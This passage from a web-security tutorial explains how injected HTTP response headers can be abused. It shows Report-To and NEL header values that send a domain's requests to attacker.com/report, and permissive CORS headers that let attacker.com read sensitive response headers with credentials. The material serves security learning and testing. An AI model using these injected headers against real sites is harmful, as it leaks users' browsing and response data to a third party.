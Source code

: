 Then, configure logging 100% of the error and 100% of the successful requests that created endpoint:

{% code title="NEL:" %}
```json
{
  "report_to": "leak",
  "include_subdomains": true,
  "success_fraction": 1,
  "failure_fraction": 1,
  "max_age": 600
}
```
{% endcode %}

Together, the headers you inject should look something like this:

{% code overflow="wrap" %}
```http
Report-To: {"group":"leak","max_age":600,"include_subdomains":true,"endpoints":[{"url":"https://attacker.com/report"}]}
NEL: {"report_to":"leak","include_subdomains":true,"success_fraction":1,"failure_fraction":1,"max_age":600}
```
{% endcode %}

From now on, the next 600 seconds (10 minutes) all top-level requests to the domain that these response headers were set on will be sent to [https://attacker.com/report](https://attacker.com/report). Requests will be batched and sent every minute, and debugging this can be annoying. There are some tips in the article below to get DevTools to show you which requests are queued:

{% embed url="https://developer.chrome.com/docs/capabilities/web-apis/reporting-api#use_devtools" %}
Explanation of the Reporting API and some debugging tips
{% endembed %}

You can also use the `--short-reporting-delay` startup flag in Chrome while testing to make the minute-delay shorter and receive reports instantly.

{% hint style="info" %}
**Tip**: while testing, make sure the host and reporting endpoint use `https://`, and Cloudflare is not overwriting it with its own `cf-nel`. Set up a working receiving server using [`interactsh-client -v`](https://github.com/projectdiscovery/interactsh).
{% endhint %}

### CORS

If your goal is to leak some content of the response that you are at the same time injecting into, this is possible by **adding permissive** [**CORS headers**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS#the_http_response_headers). For example:

{% code title="Response Headers" %}
```http
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Expose-Headers: X-Super-Sensitive-Header
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: DELETE, PUT, PATCH
```
{% endcode %}
